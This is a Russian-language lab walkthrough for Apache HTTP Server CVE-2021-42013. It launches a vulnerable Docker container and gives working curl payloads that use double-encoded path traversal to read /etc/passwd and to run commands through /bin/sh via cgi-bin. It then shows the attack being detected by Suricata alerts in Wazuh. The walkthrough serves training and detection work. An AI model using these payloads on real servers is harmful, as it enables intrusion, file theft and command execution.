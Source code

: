 # CVE-2021-42013

CVE-2021-42013 — это уязвимость, вызванная неполным исправлением [CVE-2021-41773](cve-2021-41773.md).&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу [http://ваш-ip:8080](http://xn---ip-5cdj7k:8080/) будет доступна дефолтная страница с фразой "It works!

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Предыдущая полезная нагрузка CVE-2021-41773 `http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd` была пропатчена, но не полностью.

Для реализации уязвимости нужно использовать `.%%32%65`

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Если на сервере включены моды cgi или cgid, эта уязвимость обхода пути позволит выполнить произвольные команды:

curl -v --data "echo;id" 'http://ваш-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости, о выводе файла /etc/passwd в ответе на ваш запрос и о выполнении произвольных команд.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

